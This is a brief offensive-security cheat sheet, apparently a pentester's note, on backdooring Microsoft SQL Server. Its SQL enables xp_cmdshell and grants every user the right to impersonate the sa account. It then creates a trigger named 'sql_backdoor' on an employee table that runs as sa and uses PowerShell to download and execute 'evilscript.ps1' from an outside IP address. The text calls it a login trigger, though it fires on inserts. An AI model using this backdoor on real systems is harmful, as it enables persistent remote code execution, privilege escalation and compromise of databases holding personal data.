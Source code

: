 # MSSQL xp_cmdshell

tags: #mssql #database #backdoor

Enable xp_cmdshell

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

Grants all users to impersonate the sa account
```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

```sql
USE HRDB
```

Create a Trigger for executing powershell when a login occurs of the sa account

```sql
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://10.2.54.106:9000/evilscript.ps1'')"';
```
